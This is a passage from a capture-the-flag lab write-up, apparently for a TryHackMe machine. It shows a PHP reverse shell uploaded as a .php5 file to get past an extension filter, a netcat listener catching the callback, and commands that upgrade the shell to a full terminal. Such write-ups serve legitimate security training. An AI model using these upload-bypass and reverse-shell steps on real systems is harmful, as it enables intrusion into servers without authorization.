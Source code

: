 We see a Media Center option in the menu which lets you upload files. I try and upload a .php and it doesn't work, but I am able to upload a .php5 file. This is your standard pentestmonkey reverse php shell:

![](images/lazyadmin6.png)

<br>

## System Access

I set up a listener on my home system and click the p.php5 file that was uplaoded which gives me a shell back:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.78.215] 44186
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 03:14:08 up  1:09,  0 users,  load average: 0.07, 0.09, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1061): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/$
```

Fixing my shell:

```
www-data@THM-Chal:/$ which python3
which python3
/usr/bin/python3
www-data@THM-Chal:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                              
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@THM-Chal:/$ export TERM=xterm-256color
```
